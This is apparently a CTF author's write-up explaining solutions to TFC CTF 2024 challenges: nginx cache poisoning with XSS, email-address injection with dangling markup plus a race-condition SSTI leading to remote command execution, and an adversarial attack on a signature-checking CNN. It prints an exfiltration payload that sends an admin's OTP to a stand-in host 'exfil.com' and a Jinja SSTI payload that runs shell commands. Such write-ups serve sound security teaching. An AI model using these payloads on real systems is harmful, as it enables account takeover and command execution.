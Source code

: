 # TFC CTF 2024 Challenges

Here are the sources and solutions for the challenges I created for TFC CTF 2024:

## PNGiphy - Web

PNGiphy was a HARD web challenge involving Cache Poisoning coupled with XSS.

After navigating on the platform, we can see that image upload is possible. However, no sanitization is in place, so we can upload any file, like a valid JS or HTML and it will be saved under `/static/images/<id>`.

Also, images can be reported to a bot that will visit them. But the bot only visits `/?image=imageid`, which loads the corresponding uploaded file into an `img` tag, so XSS should not be possible.

After a closer look, we can see caching is enabled in nginx.conf:

```
proxy_cache_valid 200 301 1m;
proxy_cache_key "$scheme://$hostname$uri";
```

But the cache key is not properly used, leading to cache poisoning.
That is because, in nginx, the `$uri` parameter does not include the parameters and the fragment part. So those will not be included in the cache key. However, when the request is forwarded, golang does not interpret the hash character (`#`) as the beginning of a fragment, thus including it in the path.

It should also be noted that golang normalizes the paths, so a request to `a/b/../c` will return a redirect to `a/c`.

The cache poisoning should begin like this:
* Upload a file with a js payload (containing the XSS payload) and get its id
* Wait 1 minute for the cache to clear and then navigate to `/static/main.js#/../images/<id>` in order to trigger a new cache.
* The cache will be poisoned (cache key will be `/static/main.js` and will be served as a 301 redirect to `/static/images/<id>`)
* Report any image id and, when the bot will load the page, `/static/main.js` will be fetched by the browser, thus rendering our cached file contents and and the XSS payload will be executed

From there just get the leaked flag from the cookie.

## Phisher - Web

Phisher was a HARD-INSANE web challenge, involving information disclosure through email injection + dangling markup, as well as RCE through Race-Condition + SSTI.

The application is split into two parts.

The first one, under `mail.phisher.tfc`, is an inbox application. Users can register under any email and will receive messages. On the other one, `dashboard.phisher.tfc`, the login is implemented using OTP codes, which are sent in the respective's user inbox.

After logging in on the dashboard, users will be able to send referrals to other users, including custom messages. This is done using jinja's `render_template_string`. But, no SSTI is possible when sending a simple message. There is also a specific admin functionality, `bulk_send`, which allows sending multiple messages to users.

### Step one
The first step should be gaining admin access. In order to do this, we should leak his OTP somehow. Note that, in the email body, the user's email is rendered unsanitized. So, we could try injecting some HTML. However, the iframe is sandboxed, so XSS can not be achieved inside the rendered email preview.

Why is entering HTML tags possible? Because `flask_mail` parses the email address this way: If the `<` and `>` tags are present in the email, it will take the address between the tags as the recipient. Everything else is ignored:

```py
>>> import email.utils
>>> email.utils.parseaddr('test<admin@phisher.tfc>test<h1>')
('test', 'admin@phisher.tfc')
```

So, the above payload will actually be sent to the admin user and will be rendered unsanitized inside the email body. But how can we exfiltrate the OTP?

Here comes [Dangling Markup](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) to our help. Entering a payload like `test<admin@phisher.tfc>test<img src="http://exfil.com/?x=` will result in the whole content before the first quotes being included in the image tag. This includes the OTP, which will be included in the exfiltration URL (`http://exfil.com/?x=,</p>            <p>Here is your code: <b>16919426</b></p>        </div>        <div class=`), thus leaking the admin's code.

After getting the admin code, we can login into his account. Now we have access to the full dashboard functionality.

### Step two
For the second part, the main issue resides in the `bulk_send` functionality. While normal users can only send one message at a time, admin users can enter emails separated by a comma and the backend will create a queue of messages. After that, the backend attempts to include the referral message in **all** the queue emails, without checking if they are already rendered:

```py
def send_bulk(self, sender_email, rcpts, message):
    self.queue.extend(Referral(sender_email, rcpt) for rcpt in rcpts)
    for referral in self.queue:
        referral.include_message(message)
```

So, if the queue is not empty when the request is made, `render_template_string` will be called again on the old items, meaning double template rendering, which results in SSTI.

The plan is as following: Send a request with `{{[].__class__}}` in the message field and a batch of emails separated by comma in the emails field. This will fill the queue with emails that contain the above payload in the message field. Then, send another request similar to the previous one (make sure the timespan between the two requests is very short in order to win the race condition). Immediately when the second request is parsed, the queue will still have some emails that need to be parsed from the first request. Jinja's `render_template_string` will be called again on them and our previously included payload in the message (which initially was harmless), will now be executed. Then, the user will receive a bunch of emails, some of them containing the SSTI results.

Because template rendering escapes quotes, the final payload should be like this: `{{[].__class__.mro()[1].__subclasses__()[370](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip()}}` with the GET argument `?cmd=cat+/flag.txt`.

### Note:

The only team that solved the challenge, **COR (.;,;.)**, actually found an unintended solution to the first part of the challenge. Instead of using `dangling markup` in the email body, they managed to trigger an actual XSS on the email site, because the `From:` field from the email list was not sanitized. Thus, they bypassed the sandbox and leaked the OTP directly from outside the iframe. You can read their writeup [here](https://cor.team/posts/tfc-ctf-2024-phisher/). Congrats to them for the third place!

## Signature - AI/ML

Signature was a MEDIUM Machine Learning challenge involving adversarial attacks.

The website is waiting for a photo with a signature in order to authenticate the user. If the signature matches, the flag is returned.

The signature matching is performed using a CNN model, `model.h5`. In order to retreive the image that the model learned as being valid, a couple of attacks could be performed: `input layer attack` and `gradient tape`. These two are similar. You can find the exploit scripts inside the `solver/` folder of the `Signature` repo.
